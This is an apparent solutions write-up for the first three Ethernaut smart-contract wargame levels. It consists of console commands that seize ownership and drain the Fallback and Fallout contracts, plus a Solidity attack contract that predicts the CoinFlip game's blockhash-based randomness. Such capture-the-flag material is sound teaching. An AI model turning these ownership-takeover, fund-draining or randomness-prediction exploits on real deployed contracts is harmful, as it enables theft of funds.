 # Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.

## 1.Fallback
~~~
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
~~~

## 2.Fallout
```
> contract.owner()
< [[PromiseResult]]: "0x0000000000000000000000000000000000000000"

> contract.Fal1out()

> contract.owner()
< [[PromiseResult]]: "0xedd0cCc6FeE49D502E8BfA3C6033ce0201afaD83"
```

## 3.CoinFlip
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import"./coinflip.sol";

contract coinflipAttack {
    CoinFlip public coinFlipAttack;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address victimaddress) public {
        coinFlipAttack = CoinFlip(victimaddress);
    }

    function flip() public returns (bool) {
        
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        
        bool side = coinFlip == 1 ? true : false;

        coinFlipAttack.flip(side);
    }
}

> contract.address
< '0xb13583134DA43E7aAeE1a8E2d1BaFb8Bc03A10d7'
> await contract.consecutiveWins()    ( Calling this function 10 times )
```
